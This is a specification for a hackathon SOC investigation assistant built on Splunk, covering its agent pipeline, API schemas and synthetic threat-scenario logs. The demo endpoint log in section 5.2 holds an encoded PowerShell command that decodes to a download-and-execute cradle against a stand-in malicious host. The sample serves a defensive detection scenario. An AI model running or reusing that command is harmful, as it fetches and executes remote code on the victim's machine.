

# Splunk SentinelOps AI - System Specification

This document defines the functional and technical requirements for **Splunk SentinelOps AI**, an AI-powered, human-in-the-loop SOC investigation assistant designed for the Splunk Agentic Ops Hackathon (Security Track).

---

## 1. Feature Specifications

### 1.1 Security Dashboard
*   **Purpose**: Single-pane-of-glass overview of active SOC alerts and connection statuses.
*   **Key Components**:
    *   **Alert Summary Cards**: Visual count of alerts categorized by severity (Critical, High, Medium, Low).
    *   **System Status indicators**:
        *   **Splunk Connection Status**: Dynamic badge (`Connected (REST API)` | `Connected (MCP)` | `Mock Mode`).
        *   **AI Mode Status**: Dynamic badge (`OpenAI` | `Gemini` | `Mock AI Mode`).
        *   **Human-in-the-Loop Active Indicator**: Clear visual warning confirming all actions are simulated and require analyst approval before updating state.

### 1.2 Alert List
*   **Purpose**: Display a sortable, filterable list of pending security alerts loaded from the system database (`alerts.json`).
*   **Columns**: Severity, Timestamp, Alert Title, Host, User, Source IP, Investigation Status (`New` | `Investigating` | `Resolved`).
*   **Primary Action**: "Investigate with AI" button on each row which routes the analyst to the Alert Investigation Detail Page.

### 1.3 Alert Detail / Investigation Page
*   **Purpose**: Detailed workspace for conducting an investigation on a selected alert.
*   **Core Panels**:
    *   **Alert Metadata Panel**: Displays alert title, ID, time, source IP, username, and raw event data.
    *   **Agentic Pipeline Stream**: Real-time visual progress tracker showing which AI agents are currently executing (Alert Parser -> SPL Planner -> Evidence Collector -> Risk Scorer -> Timeline Builder -> Recommender -> Report Writer).
    *   **Generated SPL Queries Panel**: Fenced blocks displaying the SPL queries created by the agent, with a "Copy to Clipboard" button.
    *   **Evidence Cards Panel**: Visual cards displaying log entries pulled from Splunk indices (auth_logs, endpoint_logs, firewall_logs) matching the query criteria.
    *   **Interactive Incident Timeline**: Chronological, vertical flow of threat steps discovered by the agents.
    *   **Explainable Risk Score Gauge**: Circular visual indicator of the risk score (0-100) with color-coded severity and a card listing the specific contributing `risk_factors`.
    *   **AI Summary & Explanation**: A markdown-rendered block summarizing what occurred, why it represents a threat, and the level of certainty.
    *   **Human-in-the-Loop Recommendation Panel**: Interactive form showing response actions suggested by the Recommender Agent. The analyst can review and click `Approve` or `Reject` for each item.
    *   **Export Report Panel**: A live markdown preview of the incident report, with a button to export the report as a file.

---

## 2. Agentic Investigation Pipeline

The backend orchestrates 7 distinct Pydantic-modeled agents running sequentially or in parallel:



1.  **Alert Parser Agent**: Reads the raw alert source event. Extracts key attributes: target host, target user, source IP, timestamps.
2.  **SPL Query Planner Agent**: Formulates context-specific Splunk Search Processing Language (SPL) queries to find relevant historical logs across security indices (failed logins, process command execution, outbound traffic volume) around the alert's timestamp.
3.  **Evidence Collector Agent**: Executes the generated SPL queries against the Splunk REST client (or retrieves mock entries from the demo CSV files if offline) and parses the logs into structured evidence.
4.  **Risk Scorer Agent**: Evaluates the gathered evidence using deterministic logic and returns a numeric risk score (0-100), severity level, and a list of explanatory risk factors.
5.  **Timeline Builder Agent**: Orders all gathered logs chronologically and compiles a clear narrative timeline of the attack flow.
6.  **Recommendation Agent**: Evaluates the risk score and timeline to generate a list of response actions, marking which ones require human-in-the-loop validation.
7.  **Report Writer Agent**: Compiles the outputs of all previous steps into a clean, concise, executive-level Markdown summary suitable for export.

---

## 3. Splunk Integration Specs

### 3.1 Connection Abstractions
*   **`splunk_client.py`**: Interacts with the Splunk REST API (`https://<host>:<port>/services/search/jobs`) to dispatch search jobs, await completion, and retrieve events in JSON format.
*   **`mcp_client.py`**: Prepares standard Model Context Protocol (MCP) clients to leverage the Splunk MCP server (querying, summarization, or metadata tools) to target bonus points.
*   **`mock_data.py`**: Ingests the synthetic CSV files from `demo-data/` and serves as a fast fallback engine.

### 3.2 Splunk status endpoint
*   Exposes connection state, index sizes, index presence (`auth_logs`, `endpoint_logs`, `firewall_logs`), and API latency.

---

## 4. API Endpoint Schemas

### 4.1 `GET /health`
*   **Purpose**: Readiness check.
*   **Response Schema**:
    ```json
    {
      "status": "string",
      "version": "string",
      "splunk_connected": true,
      "mcp_active": true,
      "ai_provider": "string",
      "timestamp": "string"
    }
    ```

### 4.2 `GET /alerts`
*   **Purpose**: Fetch all alerts for the dashboard.
*   **Response Schema**:
    ```json
    [
      {
        "alert_id": "string",
        "title": "string",
        "severity": "Low | Medium | High | Critical",
        "source": "string",
        "user": "string",
        "host": "string",
        "source_ip": "string",
        "timestamp": "string",
        "status": "New | Investigating | Resolved"
      }
    ]
    ```

### 4.3 `GET /alerts/{alert_id}`
*   **Purpose**: Retrieve raw data of a single alert.
*   **Response Schema**:
    ```json
    {
      "alert_id": "string",
      "title": "string",
      "severity": "string",
      "timestamp": "string",
      "raw_event": "string"
    }
    ```

### 4.4 `POST /investigate`
*   **Purpose**: Trigger the agentic investigation pipeline.
*   **Request Schema**:
    ```json
    {
      "alert_id": "string",
      "use_mock_splunk": false,
      "use_mock_ai": false
    }
    ```
*   **Response Schema**:
    ```json
    {
      "alert_id": "string",
      "title": "string",
      "summary": "string",
      "generated_spl": [
        {
          "description": "string",
          "query": "string"
        }
      ],
      "evidence": [
        {
          "source": "string",
          "description": "string",
          "raw_log": "string"
        }
      ],
      "timeline": [
        {
          "timestamp": "string",
          "source": "string",
          "event": "string",
          "severity": "string",
          "details": "string"
        }
      ],
      "risk_score": 0,
      "risk_level": "string",
      "risk_factors": [
        "string"
      ],
      "recommendations": [
        {
          "id": "string",
          "action": "string",
          "reason": "string",
          "impact": "string",
          "requires_approval": true,
          "status": "string"
        }
      ],
      "human_approval_required": true,
      "report_markdown": "string",
      "mode": "string",
      "splunk_status": "string",
      "ai_status": "string"
    }
    ```

### 4.5 `POST /export-report`
*   **Purpose**: Export the generated report markdown as a file download.
*   **Request Schema**:
    ```json
    {
      "alert_id": "string",
      "report_markdown": "string",
      "format": "markdown"
    }
    ```
*   **Response Schema**: Binary file stream or a temporary downloadable link pointing to the exported markdown file.

### 4.6 `GET /splunk/status`
*   **Purpose**: Provide index diagnostics for the setup wizard.
*   **Response Schema**:
    ```json
    {
      "connected": true,
      "host": "string",
      "port": 0,
      "indices": {
        "auth_logs": 0,
        "endpoint_logs": 0,
        "firewall_logs": 0,
        "web_logs": 0
      },
      "error": "string | null"
    }
    ```

---

## 5. Threat Scenario Log Data Format

### 5.1 `demo-data/auth_logs.csv`
```csv
timestamp,username,source_ip,status,failure_reason
2026-06-10T12:00:00Z,admin,198.51.100.42,failed,Invalid password
2026-06-10T12:01:00Z,admin,198.51.100.42,failed,Invalid password
2026-06-10T12:02:00Z,admin,198.51.100.42,failed,Account locked attempt
2026-06-10T12:03:00Z,admin,198.51.100.42,success,None
```

### 5.2 `demo-data/endpoint_logs.csv`
```csv
timestamp,host,user,process_name,command_line,parent_process
2026-06-10T12:05:00Z,ops-workstation-01,admin,powershell.exe,"powershell.exe -ExecutionPolicy Bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYgBhAGQAZwB1AHkALgBjAG8AbQAvAHAAeQAuAHAAcwAxACcAKQA=",cmd.exe
```

### 5.3 `demo-data/firewall_logs.csv`
```csv
timestamp,source_ip,dest_ip,dest_port,bytes_sent,bytes_received,action
2026-06-10T12:10:00Z,192.168.1.100,203.0.113.88,443,1572864000,5120,allowed
```

### 5.4 `demo-data/web_logs.csv`
```csv
timestamp,client_ip,request_path,status_code,response_time_ms
2026-06-10T12:15:00Z,198.51.100.42,/api/admin/backup,500,4500
```

### 5.5 `demo-data/alerts.json`
```json
[
  {
    "alert_id": "alert-001",
    "title": "Suspicious Login & Command Execution Cascade",
    "severity": "Critical",
    "source": "Splunk Core Alert Rules",
    "user": "admin",
    "host": "ops-workstation-01",
    "source_ip": "198.51.100.42",
    "timestamp": "2026-06-10T12:05:00Z",
    "status": "New"
  }
]
```

---

## 6. Verification and Error Handling

1.  **Empty Search Result**: If a generated SPL query returns empty records, the `Evidence Collector Agent` notes `No logs found under this filter`, setting evidence status to null, and continues without throwing exceptions.
2.  **API Rate Limiting/Key Expiration**: If the AI model request fails due to key errors, the backend triggers fallback to local mock summaries in `mock_data.py` while logging the incident warning.
3.  **Invalid Alert Request**: Requests for non-existent alerts return a standard `HTTP 404 Not Found` with structured JSON body detailing the missing resource ID.
